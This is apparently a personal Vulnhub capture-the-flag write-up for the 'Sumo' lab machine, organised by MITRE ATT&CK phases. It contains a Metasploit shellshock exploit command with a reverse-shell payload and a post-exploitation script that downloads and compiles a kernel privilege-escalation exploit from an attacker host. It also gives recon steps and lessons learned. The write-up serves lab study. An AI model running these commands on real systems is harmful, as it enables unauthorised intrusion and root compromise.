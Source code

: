 # Vulnhub Writeup #5: Sumo
## MITRE Att&ck Overview
---
![](2021-10-28-01-58-47.png)
MITRE ATT&CK matrix made with [Mitre-Attack-Navigator](https://mitre-attack.github.io/attack-navigator)

## Reconnaissance
--------------------------
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Techniques and procedures
- Opened up ZAP and crawled host's port 80 HTTP server; found nothing of note. 
- Nikto 
  - found this server was vuln to shellshock
  - was able to identify a directory /cgi-bin/test, as well as a file test.sh
    - I wasn'table to figure out a way to identify these files without Nikto, or what method Nikto used to find them, but it may be related to mod_negotiate being in use on the Apache server
- Gobuster ( #Crawling )
  - Didn't get 200s for pages other than index.html with Seclists Discovery Wordlists
  - After having success with Nikto, wrote a script at  [Reconnaissance](Reconnaissance.md) which was able to identify this folder, as well as a default "it works! file". 
  
  Nothing else was identified. It's clear this is supposed to be considered enough to find the vector.
    1) Nikto
    2) Knowing that CGI is extremely vulnerable
No other write-ups I've found have illustrated using pure deduction to figure this vector out.

## Initial Access, Execution & Command and Control
--------
Scanned for shellshock vulnerabilities in MSF (Searchsploit could've been used here as well):
```
search shellshock
```

The ```apache_mod_cgi_bash_env_exec``` exploit was returned as an applicable msf module.

###### Metasploit Resource Script for exploitation
```
msfconsole -x "use exploit/multi/http/apache_mod_cgi_bash_env_exec;\
set PAYLOAD payload/linux/x86/shell_reverse_tcp;\
set TARGETURI /cgi-bin/test/test.cgi;\
set RHOST 172.16.2.44;\
set LPORT 4444;\
set CVE CVE-2014-6278;\
exploit -z" 
```
#MetasploitScripts


## Discovery > Collection > Exfiltration
--------
- Checked running processes with ps -aux. Didn't find anything noteworthy. 
- Home directory was also quite bare. 
- Checked listening connections which didn't find anything noteworthy. 
- Checked distro/kernel version and compared it against searchsploit, which turned up an exploit
- Finally just wrote a script that would execute post_enum for me at [Discovery](Discovery.md)

## Privilege Escalation
--------
Simply looking up the kernel version in SearchSploit uncovered kernel exploit based LPE
```text 
searchsploit ubuntu |grep 3.2.0-23 |grep -vi \< 3.2.0-23 
```
In the MSF shell, the following code will trigger the exploit


### sumo_post.sh - privilege escalation script

```
sessions -i 1 -s /home/kali/targetz/sumo/sumo_post.sh"
```
```bash
#!/bin/bash
#sumo_post.sh 
# move to tmp for dirty work
cd /tmp
R="172.16.2.45"
wget $R/pwn.c #priv esc exploit
chmod +x pwn.c
# fix path, gcc can't see ld binary from tmp 
export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin
/usr/bin/gcc pwn.c -O2 -o vnik
./vnik 0  # results in root shell
python -c 'import pty; pty.spawn("/bin/sh")'
```



## Appendix: 
---
### Key lessons learned:
- Looking only for 200s in gobuster caused me to miss CGI-Bin dir. 
- Not enabling recursion in your automations can make enumeration a pain
- Large desire to read approaches that didn't use Nikto to discover the mod-cgi vulnerability
-Modify shell path early on to avoid "missing" binaries with ```export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin```
---
### Technical Issues Encountered:
GCC compliation error:
 
``` 
collect2: cannot find 'ld' when compiling in /tmp/
```

Found solution at  [stackoverflow](https://stackoverflow.com/questions/35970824/gcc-collect2-fatal-error-cannot-find-ld):

Two Options:
1) modify path
eg. export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin 

 2) copy ld binary to tmp


Obsidian Tags

#vulnhub #linux